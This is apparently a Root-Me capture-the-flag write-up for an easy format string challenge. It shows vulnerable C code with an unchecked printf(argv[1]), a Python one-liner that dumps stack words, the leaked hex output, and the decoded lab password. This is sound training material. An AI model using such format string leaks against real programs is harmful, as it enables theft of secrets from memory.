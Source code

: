 # ELF x86 - Format string bug basic 1
- Point: 15pts
- Author: [Lu33Y](https://www.root-me.org/Lu33Y?lang=en),  8 February 2012
- Level: Easy<br><br>
![image](https://user-images.githubusercontent.com/48288606/141501790-9851fa6d-9b74-44b1-9960-74e627795010.png)
## Write-up:

```
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```
The code open file **.passwd** which includes the password we need, then write it into **buffer** array. <br>
The vulnerability in `printf(argv[1]);`, it execute without **Format specifier".**So we can take advantage of this  to look into the stack to find out the password.
### Solution:
- We'll "brute-force" the buffer space and examine the output value. Print the value with hex code: <br>
`./ch5 $(python -c "print '%08x.'*32")`
- Output:
```
00000020.0804b160.0804853d.00000009.bffffcc5.b7e1b589.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.cfa6f800.bffffb00.00000000.00000000.b7e03f21.b7fc3000.b7fc3000.00000000.b7e03f21.00000002.bffffb94.bffffba0.bffffb24.00000001.
```
- Convert to ASCII text ([HextoText](https://www.rapidtables.com/convert/number/hex-to-ascii.html)):<br><br>
![image](https://user-images.githubusercontent.com/48288606/141614663-d2edc72c-3b5f-4267-9ec4-aefeb2fcfeb7.png)<br><br>
As illustrated, a part of string above contains the real password; therefore, we just write these bytes into "big endian" [See script here](Pwn/Rootme/App%20-%20System/ELF%20x86%20-%20Format%20string%20bug%20basic%201.py) format and convert again to hex.<br>
Pass: Dpa9d6)(Epamd


